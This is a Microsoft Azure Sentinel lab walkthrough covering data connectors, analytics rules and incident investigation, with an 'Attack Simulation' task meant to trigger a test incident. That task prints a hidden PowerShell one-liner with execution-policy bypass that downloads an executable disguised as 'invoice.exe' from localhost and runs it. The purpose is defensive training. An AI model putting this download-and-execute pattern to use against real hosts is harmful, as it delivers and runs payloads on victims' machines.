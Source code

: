 # **Demo 12: Azure Sentinel**

## What is Azure Sentinel?

Microsoft Azure Sentinel is a scalable, cloud-native, security information event management (SIEM) and security orchestration automated response (SOAR) solution. Azure Sentinel delivers intelligent security analytics and threat intelligence across the enterprise, providing a single solution for alert detection, threat visibility, proactive hunting, and threat response.

Azure Sentinel is your birds-eye view across the enterprise alleviating the stress of increasingly sophisticated attacks, increasing volumes of alerts, and long resolution time frames.

- **Collect data at cloud scale** across all users, devices, applications, and infrastructure, both on-premises and in multiple clouds. 

- **Detect previously undetected threats**, and minimize false positives using Microsoft's analytics and unparalleled threat intelligence. 

- **Investigate threats with artificial intelligence**, and hunt for suspicious activities at scale, tapping into years of cyber security work at Microsoft. 

- **Respond to incidents rapidly** with built-in orchestration and automation of common tasks.

![ws name.](media/sentinel1.png)

To on-board Azure Sentinel, you first need to enable Azure Sentinel, and then connect your data sources. Azure Sentinel comes with a number of connectors for Microsoft solutions, available out of the box and providing real-time integration, including Microsoft 365 Defender (formerly Microsoft Threat Protection) solutions, Microsoft 365 sources (including Office 365), Azure AD, Microsoft Defender for Identity (formerly Azure ATP), Microsoft Cloud App Security, Azure Defender alerts from Azure Security Center, and more.

## Global prerequisites

- Active Azure Subscription, if you don't have one, create a [free account](https://azure.microsoft.com/free/?WT.mc_id=A261C142F) before you begin.

- Log Analytics workspace. Learn how to [create a Log Analytics workspace](https://docs.microsoft.com/en-us/azure/azure-monitor/logs/quick-create-workspace). For more information about Log Analytics workspaces, see [Designing your Azure Monitor Logs deployment](https://docs.microsoft.com/en-us/azure/azure-monitor/logs/design-logs-deployment).

- To enable Azure Sentinel, you need contributor permissions to the subscription in which the Azure Sentinel workspace resides.

- To use Azure Sentinel, you need either contributor or reader permissions on the resource group that the workspace belongs to.

- Additional permissions may be needed to connect specific data sources.

- Azure Sentinel is a paid service. For pricing information see [About Azure Sentinel](https://go.microsoft.com/fwlink/?linkid=2104058).

## **Task 1: Demo and Walkthrough of Azure Sentinel**

1. Sign in to the Azure portal and search for and select Azure Sentinel.

![ws name.](media/sentinel2.png)

2. Click on **log-analytics-avd-prod-EUS1-001**

![ws name.](media/sentinel3.png)

3. Click on **Data Connectors** and highlight the Connected Data connectors

![ws name.](media/sentinel4.png)

4. Click on **Azure Active Directory** and then click on **Open connector page**

![ws name.](media/sentinel5.png)

5. On this page you can highlight the **Sign-In** Logs checkbox which indicates that the AAD Sign Logs are now being sent over to Azure Sentinel.

![ws name.](media/sentinel6.png)

6. Click on **Next steps**; On this page you can highlight the **Relevant analytics templates** and showcase the in-built Rules that you can create for various types of events.

![ws name.](media/sentinel7.png)

7. Click on **Analytics**; On this page you can highlight the **Active Rules** and showcase the in-built Rules.

![ws name.](media/sentinel8.png)

8. Click on **Incidents**; On this page you can highlight the **Open, New and Active Incidents**. These are Test incidents generated as a result of a simulated malicious command line.

![ws name.](media/sentinel9.png)

9. Select any of the Incidents; Click on **Actions**, and then click on **Investigate**.

![ws name.](media/sentinel10.png)

10. On this page you can highlight the level of details that is shown, like how the process was run, what other child processes were created, who exceuted the process, etc.

![ws name.](media/sentinel11.png)

## **Task 2: Attack Simulation**

1. Using AVD Client on your JumpVM, Login to any of the Session Desktops with any of the User Accounts.

2. Open CMD as non-Admin, and execute the below Commandline.

```
powershell.exe -NoExit -ExecutionPolicy Bypass -WindowStyle Hidden $ErrorActionPreference= 'silentlycontinue';(New-Object System.Net.WebClient).DownloadFile('http://127.0.0.1/1.exe', 'C:\\test-WDATP-test\\invoice.exe');Start-Process 'C:\\test-WDATP-test\\invoice.exe'
```
This should take couple of minutes to report to Defender and then eventually being captured by Azure Sentinel. In sometime you should be able to see a new Incident getting created for the above malicious command execution.

![ws name.](media/sentinel12.png)

![ws name.](media/sentinel13.png)